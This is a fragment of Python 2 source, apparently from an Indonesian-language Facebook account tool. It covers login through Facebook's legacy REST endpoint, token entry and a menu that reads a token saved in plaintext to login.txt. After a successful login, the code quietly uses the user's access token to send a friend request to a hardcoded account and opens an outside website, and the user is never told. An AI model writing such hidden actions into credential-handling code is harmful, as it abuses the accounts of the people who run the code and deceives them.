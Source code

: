 				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				zedd = open("login.txt", 'w')
				zedd.write(z['access_token'])
				zedd.close()
				print '\n\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mLogin successfully'
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				os.system('xdg-open https://www.pashakun.com')
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;91m[!] No connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\033[1;91m[!] \033[1;93mAccount Checkpoint")
			print("\n\033[1;92m[#] Harap Login Ulang !")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\033[1;91m[!] Login Failed")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()
			
##### TOKEN #####
def tokenz():
	os.system('reset')
	print logo
	toket = raw_input("\033[1;91m[?] \033[1;92mToken\033[1;91m : \033[1;97m")
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		zedd = open("login.txt", 'w')
		zedd.write(toket)
		zedd.close()
		menu()
	except KeyError:
		print "\033[1;91m[!] Wrong"
		e = raw_input("\033[1;91m[?] \033[1;92mWant to pick up token?\033[1;97m[y/n]: ")
		if e =="":
			keluar()
		elif e =="y":
			login()
		else:
			keluar()
			
##### MENU ##########################################
def menu():
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('reset')
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)